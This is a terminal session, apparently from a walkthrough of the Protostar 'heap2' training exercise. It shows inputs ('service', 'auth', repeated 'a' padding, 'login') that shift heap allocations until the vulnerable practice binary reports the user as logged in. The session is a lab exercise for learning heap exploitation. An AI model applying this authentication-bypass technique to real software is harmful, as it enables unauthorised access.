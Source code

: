 user@protostar:/opt/protostar/bin$ ./heap2
[ auth = (nil), service = (nil) ]
service
[ auth = (nil), service = 0x804c008 ]
auth
[ auth = (nil), service = 0x804c008 ]
auth
[ auth = 0x804c018, service = 0x804c008 ]
serviceaaaaaaaaaa
[ auth = 0x804c018, service = 0x804c028 ]
login
please enter your password
[ auth = 0x804c018, service = 0x804c028 ]
serviceaaaaaaaaaaaa
[ auth = 0x804c018, service = 0x804c038 ]
login
you have logged in already!
[ auth = 0x804c018, service = 0x804c038 ]
